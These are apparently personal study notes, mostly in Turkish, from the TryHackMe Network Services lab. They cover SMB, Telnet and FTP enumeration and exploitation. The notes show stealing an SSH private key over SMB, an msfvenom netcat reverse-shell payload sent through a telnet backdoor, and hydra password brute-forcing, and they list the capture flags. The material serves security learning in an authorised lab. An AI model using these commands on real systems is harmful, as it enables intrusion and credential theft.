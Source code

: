 # Try Hack Me NETWORK-SERVICES-

<h2> SMB-ENUMERATİON </h2>

<h4>*Enum4Linux* </h4>

<h4> nmap target -p- -vv  </h4>
-3

<br>

-smb=139,445 

<h4> enum4linux -a  targetip</h4>

<h4><a href="https://www.firatboyan.com/rid-relative-sid-security-identifier-nedir-nasil-bulunur.aspx#:~:text=Relative%20Identifier%20%28RID%29%20numaralar%C4%B1%20atan%C4%B1rken%2C%20Active%20Directory%20nesnesinin,atan%C4%B1r%20ki%20buna%20da%20Security%20Identifier%20%28SID%29%20denir."> rıd ve sıd nedir </a>  </h4>

-workgroup
<br>



-polosmb
<br>
-ubuntu 6.1
<br>
-profiles (varsayılan bir paylaşım değil ve okuma  yazma dinleme iznimiz var) ? 


<h2> SMB-EXPLOİTİNG </h2>

-smbclient//targetip/secret -U suit -p 445 

<br>

<h4> smbclient -L  //targetip  </h4>
<h4> smbmabp -H targetip  </h4>

<h4> smbclient  //targetip/profiles -U anonymous -p 445  </h4>
smb shell aldık
<br>

<h4>  get  "working from home information.txt"       </h4> 
-y
<br>
-john cactus
<br>
-ssh
<h4>  get  get id_rsa jhon-rsa   </h4> 
<h4>  get  get id_rsa.pub      </h4> 
bunlar bize jhon un ssh bağlıntısını encrip  ve hızlandırmak kullanıcı adı ve pasword girmeden hızlıca girmek için  için paetmek iiçn kullandığı public ve pravate key
<br>

-.ssh

-id_rsa
ama public keyde nde kullanıcı adını aldık

<br>

<h4>    chmod 600 /root/jhon-rsa   </h4> 
<h4>   ssh cactus@targetip  -i  /root/jhon-rsa    </h4> 
burada kullanmak istedğimiz ssh key i verdik

<br>
cactus@polosmb shell aldık 
<br>
<h4>    cat smb.txt</h4> 

-THM{smb_is_fun_eh?}



<h2> TELNET HAKKINDA  </h2>

telnet ip port
<br>

cleaar tex(plaintex) gönderiyor yerini ssh aldı kullanımı pek kalmadı




<br>

-application protocol
<br>
-ssh
<br>
-telnet 10.10.10.3 23

<br>
-encryption


<h2> TELNET ENUMERATİON </h2>
<h4>    nmap target -p- -vv -T4 </h4> 
-1

<br>

-8012

<h4>    nmap target  </h4> 
-0


<h4>  telnet target 8012   </h4> 

-backdoor

<br>


-skidy

<h2> TELNET EXPLOİTİNG </h2>

<h4>  telnet target 8012   </h4> 

-SKIDY'S BACKDOOR
<br>
komut alamıyoruz 

<br>
-N
<br>

<h4>  tcpdump ip proto \\icmp -i tun0   </h4> 


(bunu sebebi icmp paketlerini snif ediyoruz  serverde komutlarımız yürütülüyor  mu u?    ayrı bir terminalde tcpdump çalıştırıyoruz)






<h4> ping localip -c 1   </h4> 
(telnet shellin  de çalıştırıyoruz )
<br> 
evet yürütüyor 
<br>
bir payload oluşturuyoruz reverse 












<h4>  msfvenom -p cmd/unix/reverse_netcat lhost=<localhost> lport=4444 -f raw   </h4> 

-mkfifo

<br>
-nc -lvp 444

<br>




<h4> nc -lvp 444  </h4> 

telnet shellde hazırlamış olduğpumuz payloadı gönderiyoruz 
.RUN mkfifo ................


nc shelinde reverse shell aldık 

-THM{y0u_g0t_th3_t3ln3t_fl4g}

(telnet 1.1.1.1 53)

<h2>understantig ftp</h2>
active mode 
passive mode
2 kanal var komt kanalı data kanalı


-client-server

<br>
-21
<br>
-2

<h2>ftp enumerating </h2>
<h4> nmap targer -p- -sV  -vv </h4> 


-2
<br>
-21
<br>
-vsftpd

<br>


<h4> ftp targetip </h4> 

<h4> anonymous </h4> 

<h4> \n </h4>



<h4> get dosya adı </h4>
<br>
-mike
<br>







<h2>ftp exploiting  </h2>





<h4>hydra targetip ftp -l mike -P  usersahere/wordlist -v</h4>


ftp
targetip
mike 
password
<h4>get ftp.txt</h4>



 
-THM{y0y_g0t_th3_ftp_fl4g}


















